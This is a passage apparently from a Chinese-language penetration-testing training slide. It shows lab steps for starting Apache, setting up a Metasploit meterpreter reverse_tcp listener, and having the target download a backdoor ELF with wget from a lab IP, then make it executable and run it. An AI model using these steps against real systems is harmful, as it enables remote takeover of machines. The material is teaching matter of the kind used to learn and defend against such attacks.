

2. 开启apache2服务: /etc/init.d/apache2 start
3.  开启监听（payload: linux/x64/meterpreter/reverse_tcp），新建一个终端：
[root@xuegod63 ~]# wget http://192.168.77.128/xuegod.elf #下载后门
4. 添加执行权限并运行
root@xuegod63:~# chmod +x xuegod
执行程序
root@xuegod63:~# ./xuegod
55